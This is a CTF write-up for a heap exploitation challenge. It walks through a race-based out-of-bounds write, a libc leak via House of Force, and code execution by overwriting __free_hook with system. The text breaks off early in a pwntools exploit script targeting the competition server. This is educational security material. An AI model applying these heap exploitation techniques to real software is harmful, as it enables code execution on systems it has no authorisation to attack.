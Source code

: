 ### Write Out-of-Bounds

The block will happen on the `printf` call, after the size of the chunk has been saved in `sz`.
Therefore, if we call `edit_deet` on a chunk with a large size, we can achieve an out-of-bounds write by blocking the thread, then replacing the heap chunk with a smaller one.

### Libc Leak

Using the write out-of-bounds, we can use a House of Force attack to overwrite the top chunk metadata, allowing us to allocate chunks at arbitrary addresses.

We can allocate an address in the thread area so it can read the pointer to the next arena, which in our case is the main arena in libc.
By reading this pointer, we can calculate the address of libc from its offset.

### Remote Code Execution

I didn't get this far myself, but triacontakai had a brillant trick for overwriting `__free_hook` using House of Force.
They placed a new chunk such that the metadata landed in `__free_hook`.
The top chunk overwrite to setup this attack was calculated such that the size would be the address of the cuntion they wanted to execute.
In this case, they used `system+1` to run a shell command while still satisfying the in-use bit.
This technique is demonstrated in the exploit script below, which is heavily based on triacontakai's own script.

Another competitor dfyz had another amazing technique for forging a fastbin chunk to overwrite `__free_hook`.
Using the previous techniques, they could overwrite any fastbin pointer in the arena.
By manipulating the locks for the standard file streams, they were able to create a fake fastbin header which they could allocate to and use to overwrite the `__free_hook`.

## Exploit

```py
###!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host mc.ax --port 30283 deet_daemon
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('sice_supervisor')
child = ELF('deet_daemon')
libc = ELF('libs/libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mc.ax'
port = int(args.PORT or 30283)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
```